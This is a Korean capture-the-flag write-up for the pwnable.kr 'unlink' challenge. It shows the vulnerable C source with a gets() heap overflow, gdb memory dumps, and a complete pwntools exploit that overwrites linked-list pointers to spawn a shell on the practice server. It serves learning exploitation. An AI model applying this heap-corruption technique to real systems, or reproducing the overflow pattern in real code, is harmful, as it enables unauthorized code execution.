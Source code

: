 ```yaml
---
title: Pwnable KR - unlink
date: 2019-06-10 12:00:00 +0900 KST
categories: [write-up]
---
```


## 문제

![Pwnable KR unlink](pwnable-kr-unlink.png)

unlink 취약점을 공부하는 문제.

```console
unlink@prowl:~$ ls -l
total 20
-r--r----- 1 root unlink_pwn   49 Nov 23  2016 flag
-rw-r----- 1 root unlink_pwn  543 Nov 28  2016 intended_solution.txt
-r-xr-sr-x 1 root unlink_pwn 7540 Nov 23  2016 unlink
-rw-r--r-- 1 root root        749 Nov 23  2016 unlink.c
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
        struct tagOBJ* fd;
        struct tagOBJ* bk;
        char buf[8];
}OBJ;

void shell(){
        system("/bin/sh");
}

void unlink(OBJ* P){
        OBJ* BK;
        OBJ* FD;
        BK=P->bk;
        FD=P->fd;
        FD->bk=BK;
        BK->fd=FD;
}
int main(int argc, char* argv[]){
        malloc(1024);
        OBJ* A = (OBJ*)malloc(sizeof(OBJ));
        OBJ* B = (OBJ*)malloc(sizeof(OBJ));
        OBJ* C = (OBJ*)malloc(sizeof(OBJ));

        // double linked list: A <-> B <-> C
        A->fd = B;
        B->bk = A;
        B->fd = C;
        C->bk = B;

        printf("here is stack address leak: %p\n", &A);
        printf("here is heap address leak: %p\n", A);
        printf("now that you have leaks, get shell!\n");
        // heap overflow!
        gets(A->buf);

        // exploit this unlink!
        unlink(B);
        return 0;
}
```

## 풀이

```c-objdump
   0x080485f2 <+195>:   call   0x8048504 <unlink>
   0x080485f7 <+200>:   add    $0x10,%esp
   0x080485fa <+203>:   mov    $0x0,%eax
   0x080485ff <+208>:   mov    -0x4(%ebp),%ecx
   0x08048602 <+211>:   leave
   0x08048603 <+212>:   lea    -0x4(%ecx),%esp
   0x08048606 <+215>:   ret
```

`main` 함수를 살펴보자. \
`main+208`에서 `ecx`에 `*(ebp-4)` 값을 넣고,
`main+212`에서 `esp`에 `ecx-4` 값을 넣고 있다.

`shell`의 주소가 있는 공간의 주소에 4를 더하여 `ebp-4`에 넣으면
`eip` 값을 `shell`로 바꿀 수 있다.
4를 더하는 이유는 `esp`에 값을 넣을 때 4를 빼기 때문이다.

그리고 바이너리를 실행할 때 `A`의 주소값을 알려주기 때문에 `ebp` 값도 알 수 있다.

```c-objdump
(gdb) b *main+200
Breakpoint 1 at 0x80485f7
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/unlink/unlink
here is stack address leak: 0xffc5c214
here is heap address leak: 0x829b410
now that you have leaks, get shell!
AAAA

Breakpoint 1, 0x080485f7 in main ()
(gdb) print $ebp
$1 = (void *) 0xffc5c228
(gdb) x/100x 0x829b410
0x829b410:      0x0829b440      0x00000000      0x41414141      0x00000000
0x829b420:      0x00000000      0x00000019      0x0829b440      0x0829b410
0x829b430:      0x00000000      0x00000000      0x00000000      0x00000019
0x829b440:      0x00000000      0x0829b410      0x00000000      0x00000000
```

확인하면 `ebp` 값은 `&A` 값에서 20만큼 더한 값임을 알 수 있다. \
그리고 `A->buf`와 `B`의 주소 차이가 16만큼인 것도 알 수 있다.

마지막으로 `shell`의 주소를 담을 공간과 그 주소가 필요한데,
이는 유저가 값을 수정할 수 있는 `A-buf` 덕분에 해결된다.

```c
stack = &A;
heap = A;

buf = heap+8
ebp = stack+20;

*(buf) = shell;    // A->buf
*(buf+16) = buf+4; // B->fd
*(buf+20) = ebp-4; // B->bk

*(buf+8) = ebp;   // FD->bk = BK;
*(ebp-4) = buf+4; // BK->fd = FD;

ecx = *(ebp-4); // buf+4
esp = ecx-4;    // buf
eip = *esp;     // shell
```

풀이과정을 c로 옮겨서 보면 이렇다.

```python
from pwn import *

s = ssh(user='unlink', host='pwnable.kr', port=2222, password='guest')
p = s.process('/home/unlink/unlink')

p.recvuntil(': ')
stack = int(p.recv(10), 16)

p.recvuntil(': ')
heap = int(p.recv(10), 16)

p.recv()

shell = 0x080484eb
buf = heap+8
ebp = stack+20

payload = p32(shell) # A->buf
payload += b'A'*12
payload += p32(buf+4) # B->fd
payload += p32(ebp-4) # B->bk

p.sendline(payload)
p.interactive()
```

python으로 풀이를 적으면 이렇다.

## 후기

어렵다
